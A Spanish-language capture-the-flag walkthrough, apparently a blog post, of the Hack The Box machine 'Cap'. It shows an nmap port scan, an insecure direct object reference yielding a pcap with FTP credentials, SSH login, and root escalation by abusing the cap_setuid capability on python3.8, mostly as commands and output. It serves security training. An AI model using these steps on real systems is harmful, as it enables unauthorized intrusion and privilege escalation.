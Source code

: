 ```yaml
---
title: 'Cap'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1686606205/Cap_ypdfef.webp'
slug: 'box/cap'
---
```


```bash
$ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.245 -oG puertosAbiertos
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-07 10:35 WEST
Initiating SYN Stealth Scan at 10:35
Scanning 10.10.10.245 [65535 ports]
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Completed SYN Stealth Scan at 10:35, 13.13s elapsed (65535 total ports)
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.058s latency).
Scanned at 2022-08-07 10:35 WEST for 7s
Not shown: 65335 closed tcp ports (reset)
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 63
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
Raw packets sent: 65535 (2.884MB) | Rcvd: 65535 (2.622MB)
```

vemos un servicio <i>ftp</i> que corre por el puerto 21 podemos intentar:

```bash
ftp 10.10.10.245
```

pero sin contraseña no hacemos mucho, ingresamos a la página y vemos lo siguiente

<img
href='https://res.cloudinary.com/djc1umong/image/upload/v1686606224/cap_main_page_e1ofvh.webp'
width={696}
height={158}
/>

cuando ingresamos a <i>Security Snapshot (5 Second Pcap + Analysis)</i> de la pestaña en la parte izquierda vemos que estamos en la URL
<i> /data/1</i> vemos rápidamente si cambiando el <i>/1</i> con el <i>/0</i> pasa algo vemos que
algunos datos en la columna value si cambian, le damos al botón de descargar

```bash
$ file 0.pcap
0.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
```

después de comprobar que si es un archivo pcap, lo analizamos con tshark

```bash
tshark -r 0.pcap 2&gt;/dev/null
```

<img
href='https://res.cloudinary.com/djc1umong/image/upload/v1686606256/cap_tshark_e5mjpt.webp'
width={760}
height={108}
/>

ahora que tenemos un usuario y contraseña podemos intentar conectarnos con <i>fpt</i> y con ssh.

````bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:leonardo): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.```

$ ssh nathan@10.10.10.245
nathan@cap:~$ cat user.txt

````

si la máquina se llama <i>Cap</i> intentemos probar si se trata de una <i>capability </i>

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lin/x86_64-linux-gnu/gstreamer1.0/gstreaner-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_bind_service,cap_net_admin+ep
```

si <i>python3.8</i> tiene una capability de tipo <i>SUID </i> entonces con
python cambiamos <i>setuid</i> y nos lanzamos una bash

```bash
nathan@cap:~$ python3.8
>>> import os
>>> os.setuid(0)
root@cap:/# whoami
root
root@cap:/#
```
